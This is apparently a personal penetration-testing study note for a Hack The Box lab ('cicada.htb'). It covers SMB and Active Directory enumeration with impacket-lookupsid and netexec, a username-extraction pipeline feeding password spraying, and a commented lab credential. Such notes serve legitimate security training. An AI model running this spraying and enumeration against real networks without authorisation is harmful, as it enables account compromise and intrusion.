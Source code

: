 Also check out:

https://github.com/nestef23/my-OSCP-notes/blob/main/Reconnaissance/SMB%20-%20445.md

## lookupsid
lookupsid.py
### Enumerate users
https://github.com/fortra/impacket/blob/master/examples/lookupsid.py

This tool will try brute forcing Windows Security Identifiers (SIDs) of any users in the AD domain.

To enumerate the domain, we can specify the `guest` user, the domain name, and `-no-pass` for no password. 
```
# No pass
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
impacket-lookupsid support@cicada.htb -no-pass

# Known pass
impacket-lookupsid user.name@cicada.htb
```

## netexec
### basic info
Get the hostname and domain name
```
netexec smb <IP>
```
### Password spraying
In this scenario we want to perform password spraying with a known password.
1. Gett all usernames
2. Try the password against all of them
```
impacket-lookupsid support@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > users.txt

cat users.txt

netexec smb cicada.htb -u users.txt -p '<password>'
```
### Enumerate users
Must have user credentials.
This will show "description" field from the AD.
```
# netexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
netexec smb <domain> -u <user> -p '<password>' --users
```
### Enumerate shares
Must have user credentials.
This will show user permissions to each share
```
netexec smb <domain> -u <user> -p '<password>' --shares
```
